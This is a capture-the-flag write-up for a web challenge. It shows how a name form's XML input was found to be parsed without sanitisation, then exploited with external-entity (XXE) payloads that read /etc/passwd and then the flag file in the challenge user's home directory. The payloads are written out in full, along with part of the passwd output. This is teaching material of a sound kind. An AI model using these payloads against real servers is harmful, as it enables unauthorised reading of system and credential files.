 # 02 Expand the Flag

Say hello, tell me your name. I bet you can't eXpand My fLag TXT

The challenge link goes to a simple web form that asks for your name, two text input fields for your first and last name, and a button to submit.

## Write-up

The letters XML were capitalized in the challenge introduction. Also the name of the challenge includes Expand. XML Entity Expansion is a type of vulnerability and likely what's needed to get the flag.

https://en.wikipedia.org/wiki/XML_external_entity_attack

Entering text into the input boxes and submitting will load another page repeating the text back.

!(input.png)

!(output.png)

Some tests on the input fields:
* using the < character - the second page instead displays the message "Parsing Failed".
* using the HTML entity &quot; - the second page does not render it.
* using <![CDATA[x]]> - the second page just renders the contents and not the XML itself.

This is a good indicator the server is parsing the input as XML.

The HTML page for the input forms has a javascript function that runs when the submit button is clicked. The function takes the two input fields, wraps them up in tags and submits that new joined value rather than the two fields separately.

So "a" and "b" are wrapped up like:

```XML
<name>
<first_name>a</first_name>
<last_name>b</last_name>
</name>
```

If the server recieves data that doesn't quite match the format shown above, it will display an error message containing that data. For example, if the data just contains the name element and a CDATA block:

```XML
<name><![CDATA[foo]]></name>
```

The server parses the XML and displays the CDATA contents:

```Text
Hello  .
Unexpected data
name: foo
please contact to the development team.
```

We can potentially use this error message to have the server share with us information it should not.

Also worth noting there isn't any server side input sanitisation going on, which makes the attack much easier and more likely to pull off.

At this point it is assumed there is a file on the server with the flag we need to read and will use the XML entity expansion attack to read it. If that is true, as an extra challenge we also need to find the file, it isn't necessarily in the same directory as the script we are attacking.

To test faster, rather than trying via a web browser, I switched to Burp Suite's Repeater. I could submit directly to the server and skip the formatting automatically added by the javascript too.

!(burp.png)

The general idea for the XML Entity Expansion attack to be used here would be to define an entity, using any name we like, that points to a file on the server. Then reference that entity name, which will cause the server to expand the entity into the contents of the file.

Trying just simple entity expansion by having it expand to a known value:

```
data=<!DOCTYPE foo [ <!ENTITY bar "baz"> ]><name>&bar;</name>
```

This didn't work, the & and ; needed to be escaped:

```
data=<!DOCTYPE foo [ <!ENTITY bar "baz"> ]><name>%26bar%3b</name>
```

That worked as expected, the page displayed "name: baz".

Now we can try the file expansion.

Since we don't know the path to the flag file, we can start with some files with well-known paths, such as /etc/passwd.

```
data=<!DOCTYPE name [ <!ENTITY txt SYSTEM "file:////etc/passwd" > ]><name>%26txt;</name>
```

This returned the file, besides the standard users, there was a challenge user at the end:

```HTML
<pre>Hello  .
Unnexpected data
name: root:x:0:0:root:/root:/bin/bash
name: daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
[...]
name: challenge:x:999:999::/home/challenge:/bin/sh
```

We still don't know where the flag file is, but perhaps it is in their home directory?

```
data=<!DOCTYPE name [ <!ENTITY txt SYSTEM "file://///home/challenge/flag.txt" > ]><name>%26txt;</name>
```

And it was!
